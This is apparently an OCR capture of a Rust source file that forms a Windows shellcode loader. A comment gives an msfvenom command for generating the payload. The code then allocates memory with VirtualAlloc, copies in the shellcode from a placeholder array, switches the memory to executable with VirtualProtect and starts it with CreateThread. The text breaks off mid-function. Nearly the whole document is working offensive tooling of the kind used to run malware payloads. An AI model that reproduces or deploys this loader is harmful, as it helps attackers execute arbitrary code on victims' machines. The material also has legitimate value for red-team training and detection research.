 ```rs main.rs

    //┌──(kali㉿kali)-[~/Desktop]
    //└─$ msfvenom -p windows/x64/exec CMD="calc.exe" -f csharp
    let test : [u8;276] = [SHELLCODEGOESHERE];


    // allocate base addr as RW
   unsafe{
        let base_addr = kernel32::VirtualAlloc(
            ptr::null_mut(),
            test.len().try_into().unwrap(),
            MEM_COMMIT | MEM_RESERVE,
            PAGE_READWRITE
        );
       
        if base_addr.is_null() { 
            println!("[-] Couldn't allocate memory to current proc.")
        } else {
            println!("[+] Allocated memory to current proc.");
        }

        // copy shellcode into mem
        println!("[*] Copying Shellcode to address in current proc.");

        std::ptr::copy(test.as_ptr() as  _, base_addr, test.len());

        println!("[*] Copied...");

        // Flip mem protections from RW to RX with VirtualProtect. Dispose of the call with `out _`

        println!("[*] Changing mem protections to RX...");

        let mut old_protect: DWORD = PAGE_READWRITE;

        let mem_protect = kernel32::VirtualProtect (
            base_addr,
            test.len() as u64,
            PAGE_EXECUTE_READ,
            &mut old_protect
        );

        if mem_protect == 0 {
            let error = errhandlingapi::GetLastError();
            println!("[-] Error: {}", error.to_string());
            process::exit(0x0100);
        }
        
        // Call CreateThread
        println!("[*] Calling CreateThread...");

        let mut tid = 0;
        let ep: extern "system" fn(PVOID) -> u32 = { std::mem::transmute(base_addr) };

        let h_thread = processthreadsapi::CreateThread(
            ptr::null_mut(),
            0,
            Some(ep),
            ptr::null_mut(),
            0,
            &mut tid
        );

        if h_thread.is_null() {
```